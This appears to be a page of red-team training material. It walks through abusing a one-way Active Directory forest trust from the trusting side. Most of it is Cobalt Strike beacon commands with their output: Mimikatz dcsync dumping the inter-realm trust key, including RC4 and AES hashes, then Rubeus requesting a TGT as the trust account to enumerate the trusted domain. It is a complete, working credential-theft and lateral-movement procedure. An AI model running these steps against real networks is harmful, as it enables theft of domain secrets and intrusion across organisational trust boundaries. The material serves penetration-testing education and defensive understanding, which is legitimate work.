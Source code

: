 
An adversary may also find themselves on the 'wrong' side of a one-way trust, i.e. the trusting side.  In this scenario, they are against the direction of access and can not access resources in the trusted domain by design.  Remember that these forest trusts are official security boundaries.

Querying the TDO shows that we're on the outbound side of a one-way trust with _contoso.com_.

```powershell
beacon> getuid
[*] You are PARTNER\vwebber

beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 2
trustAttributes: 8
flatName: CONTOSO
```

Attempting to enumerate the foreign domain will typically fail with error code 49, which means 'invalid credentials'.  This makes everything, including basic enumeration, practically impossible.

```powershell
beacon> ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com

Binding to contoso.com
[-] Bind Failed: 49
```

Under the hood, a TGS-REQ for _krbtgt/CONTOSO.COM_ is hitting the _partner.com_ KDC which returns a `KDC_ERR_S_PRINCIPAL_UNKNOWN` error.  This means the target server was not found in the KDC's database - there is (perhaps obviously) no attempt at a referral as there would be when in the trusted domain.

Interestingly, if you have credential material for a principal in the trusted domain, you can actually impersonate them and access resources in the trusted domain across the network.

```powershell
beacon> make_token CONTOSO\Administrator Passw0rd!
[+] Impersonated CONTOSO\Administrator (netonly)

beacon> ls \\lon-dc-1.contoso.com\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     03/18/2025 13:18:21   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/18/2025 13:18:02   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/18/2025 05:28:14   DumpStack.log.tmp
 1gb      fil     03/18/2025 05:28:14   pagefile.sys
```

In this case, the calling client will perform the ticket exchanges directly with the trusted domain's KDC.  You may be wondering what good that is because how can you get credentials for a user in the trusted domain?  Well, there is one - the trust account.  Remember that the trusted domain gets a trust account created using the flat name of the trusting domain; its password is the shared inter-realm key; and the trusting domain has a copy of that key stored in the TDO.

To obtain that key, begin by grabbing the TDO's `objectGUID` attribute.

```powershell
beacon> ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

--------------------
name: contoso.com
objectGUID: 288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

And then `dcsync` it using Mimikatz's `/guid` parameter.

```powershell
beacon> mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

[DC] 'partner.com' will be the domain
[DC] 'par-dc-1.partner.com' will be the DC server
[DC] Object with GUID '{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : contoso.com

** TRUSTED DOMAIN - Antisocial **

Partner              : contoso.com
 [ Out ] CONTOSO.COM -> PARTNER.COM
    * 14/03/2025 10:27:30 - CLEAR   - cb 87 71 2c 62 c1 2e 70 ae d8 29 5e 6a ae 8c a9 96 39 51 39 10 3a ef 7c 42 6d 2d 97 
	* aes256_hmac       cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
	* aes128_hmac       4929a44176077b570d1b6f1eae4f9fbb
	* rc4_hmac_nt       6150491cceb080dffeaaec5e60d8f58d

 [Out-1] CONTOSO.COM -> PARTNER.COM
    * 14/03/2025 10:27:30 - CLEAR   - cb 87 71 2c 62 c1 2e 70 ae d8 29 5e 6a ae 8c a9 96 39 51 39 10 3a ef 7c 42 6d 2d 97 
	* aes256_hmac       cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
	* aes128_hmac       4929a44176077b570d1b6f1eae4f9fbb
	* rc4_hmac_nt       6150491cceb080dffeaaec5e60d8f58d
```

`[Out]` and `[Out-1]` are the 'current' and 'previous' keys respectively.  They're the same in this example because 30 days hasn't elapsed since the creation of the trust.  Using the RC4 key, simply ask for a TGT from the trusted domain.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /rc4:6150491cceb080dffeaaec5e60d8f58d /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 6150491cceb080dffeaaec5e60d8f58d
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\PARTNER$'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFZ[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  PARTNER$ (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  18/03/2025 13:58:52
  EndTime                  :  18/03/2025 23:58:52
  RenewTill                :  25/03/2025 13:58:52
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  dwwauTnm1s6wRz0YxKmFTQ==
  ASREP (key)              :  6150491CCEB080DFFEAAEC5E60D8F58D
```

Once this ticket has been injected into a logon session, you'll be able to enumerate the trusted domain.

```powershell
beacon> run klist

Current LogonId is 0:0x23da426

Cached Tickets: (2)

#0>	Client: PARTNER$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
	Start Time: 3/18/2025 13:58:52 (local)
	End Time:   3/18/2025 23:58:52 (local)
	Renew Time: 3/25/2025 13:58:52 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com

Binding to contoso.com

[*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 3
[*] Returning specific attribute(s): name,objectSid

--------------------
name: contoso
objectSid: S-1-5-21-3926355307-1661546229-813047887
retreived 1 results total
```

This works because the primaryGroupID of the trust account is 513.  This gives it the same privileges as Domain Users without it being an explicit member of the group, which is all due to legacy Portable Operating System Interface (POSIX) support.  The upshot is that we can now enumerate the trusted domain to find vulnerabilities such as roastable users, ADCS instances, etc.